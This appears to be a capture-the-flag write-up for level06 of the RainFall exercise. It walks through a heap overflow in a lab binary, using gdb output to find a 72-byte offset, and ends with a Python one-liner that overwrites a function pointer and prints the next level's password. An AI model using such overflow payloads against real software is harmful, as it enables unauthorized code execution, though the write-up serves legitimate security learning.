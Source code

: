 # level06

The program segfault without parameters and print "Nope" if one is set:

```bash
level6@RainFall:~$ ./level6 
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 csd
Nope
```

We can see 3 functions: main, m and n that is not called. The last one allow us to cat the `.pass` of the level07:

```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048454  n
0x08048468  m
0x0804847c  main
```

In the main function, there are two malloc: one of 64 bytes and one of 4 bytes. The second take the address of `m` as value. After, a strcpy from the first parameter of the program to the first malloc is made.
At the end, a call to the function pointed by the 2nd malloc is made.

We can try to overwrite the value of the second malloc.

First, we calculate the length between the address of the 1st malloc and the 2nd. The first is on esp+28, the second on esp+24:

```bash
(gdb) x $esp+0x1c
0xbffff6ec:     0x0804a008
(gdb) x $esp+0x18
0xbffff6e8:     0x0804a050
(gdb) p/d 0x0804a050 - 0x0804a008
$1 = 72
```

We try if a segfault occurs with 72 padding bytes:

```bash
(gdb) r $(python -c 'print "\x41" * 72 + "BBBB"')
Starting program: /home/user/level6/level6 $(python -c 'print "\x41" * 72 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

We can now replace the last four bytes with the address of n:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "\x41" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
